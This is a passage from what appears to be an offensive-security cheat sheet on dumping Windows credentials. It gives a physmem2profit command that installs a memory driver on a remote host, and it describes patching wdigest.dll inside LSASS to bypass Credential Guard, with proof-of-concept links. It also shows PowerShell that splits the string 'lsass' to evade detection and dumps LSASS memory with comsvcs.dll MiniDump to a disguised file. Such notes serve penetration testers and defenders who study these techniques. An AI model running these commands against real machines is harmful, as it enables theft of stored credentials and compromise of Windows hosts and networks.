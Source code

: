 ```
$ python3 physmem2profit --host 192.168.1.11 --port 1337 --install "C:/Windows/Temp/winpmem_x64.sys" --mode all --driver winpmem
```




## Credential Guard Bypass

- [https://icebreaker.team/blogs/sleeping-with-control-flow-guard/](https://icebreaker.team/blogs/sleeping-with-control-flow-guard/)

Patch the `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variables by their hardcoded offsets within `wdigest.dll` loaded by LSASS:

- [https://teamhydra.blog/2020/08/25/bypassing-credential-guard/](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/)
- [https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240](https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240)

Resolve `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variable offsets dynamically at runtime:

- [https://itm4n.github.io/credential-guard-bypass/](https://itm4n.github.io/credential-guard-bypass/)
- [https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp](https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp)

Merged 2 PoCs above:

- [https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99](https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99)




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)
* [https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py](https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py)
* [https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
* [https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/](https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```
